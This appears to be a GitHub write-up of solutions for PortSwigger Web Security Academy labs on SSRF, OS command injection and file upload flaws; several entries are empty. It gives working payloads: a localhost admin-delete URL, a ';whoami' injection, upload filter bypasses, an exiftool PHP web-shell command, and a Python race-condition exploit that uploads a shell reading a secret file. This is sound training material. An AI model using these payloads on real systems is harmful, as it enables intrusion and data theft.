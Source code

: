 ## Server-side request forgery (SSRF)
1. <b>Basic SSRF against the local server</b> - Go to one product from the home page and press `check stock`(intercept it with burp) send it to repeater and you will find a parameter named `stockApi` which has a url. In this url if we put `http://localhost/admin` and send the request we will see the admin panel. To solve this lab we have to put in `stockApi` param `http://localhost/admin/delete?username=carlos`
2. <b>Basic SSRF against another back-end system</b> - 
3. <b>SSRF with blacklist-based input filter</b> - 
4. <b>SSRF with filter bypass via open redirection vulnerability</b> - 
5. <b>Blind SSRF with out-of-band detection</b> - Go to home page and press one of products while you intercepting the requests and you will see the `referer` header. After that go to `burp collaborator` and change the `referer` value to http://xxxxx.collaboratorburp.net and the lab is solved. 
6. <b>SSRF with whitelist-based input filter</b> - 
7. <b>Blind SSRF with Shellshock exploitation</b> - 

## OS command injection
1. <b>OS command injection, simple case</b> - Go to `https://xxxx.web-security-academy.net/product?productId=x` and start intercepting from burp while pressing the check stock button. Send it to repeater and chain the `whoami` command at the end of productId=x `productId=333;whoami&storeId=1`
2. <b>Blind OS command injection with time delays</b> - 


## File upload vulnerabilities
1. <b>Remote code execution via web shell upload</b> - Try to upload just a php script with .php extension
2. <b>Web shell upload via Content-Type restriction bypass</b> - Try to change <b>content-type</b> from x-php to <b>image/png</b>
3. <b>Web shell upload via path traversal</b> - Change the <b>filename</b> from burpsuite intercept to <b>..%2fget_flag.php</b> and get the flag to /files/avatars/../get_flag.php
4. <b>Web shell upload via extension blacklist bypass</b> - Change the filename from <b>.php</b> extension to <b>.phtlm</b> extension and upload it
5. <b>Web shell upload via obfuscated file extension</b> - Intercept upload request and change the filename with extension <b>.php%00.png</b> - <b>Null byte technique</b>
6. <b>Remote code execution via polyglot web shell upload</b> - For this lab we have to use <b>exiftool</b> and one random .jpg or .png image. The exploitation part `exiftool -comment="<?php system('badstuff');?>" image_name.png or .jpg -o get_flag.php` after that a php file will created with get_flag.php name upload it and redirect into it to get the flag.
7. <b>Web shell upload via race condition</b> - At the lab description we can find a <b>hint</b> which has inside the source code of upload functionality.
Lets explain the code
```php
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}
```
"As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed. "
<br>
So I create a exploit with python multithreading,requests modules just to grab the flag.
```python
import requests
import threading

def upload_exploit():
	burp0_url = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/my-account/avatar"
	burp0_cookies = {"session": "sbjdev7ZM9sCuhQ2irsKrh0SjX7wddRT"}
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net/my-account", "Content-Type": "multipart/form-data; boundary=---------------------------35393652352872705425704695024", "Origin": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers", "Connection": "close"}
	burp0_data = "-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"avatar\"; filename=\"get_flag.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php system('cat /home/carlos/secret')?>\n\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"user\"\r\n\r\nwiener\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"csrf\"\r\n\r\nHEhkjls5YL1vQsQRNl2qJrpSAqeAsGMK\r\n-----------------------------35393652352872705425704695024--\r\n"
	requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


def get_flag():
	endpoint = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/files/avatars/get_flag.php"
	r=requests.get(endpoint)
	print(r.text)
	

t1 = threading.Thread(target=upload_exploit, name='t1')
t2 = threading.Thread(target=get_flag, name='t2')  
  
t1.start()
t2.start()
  
t1.join()
t2.join()

```

 [More tricks about file upload vulnerabilities](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#upload-tricks)
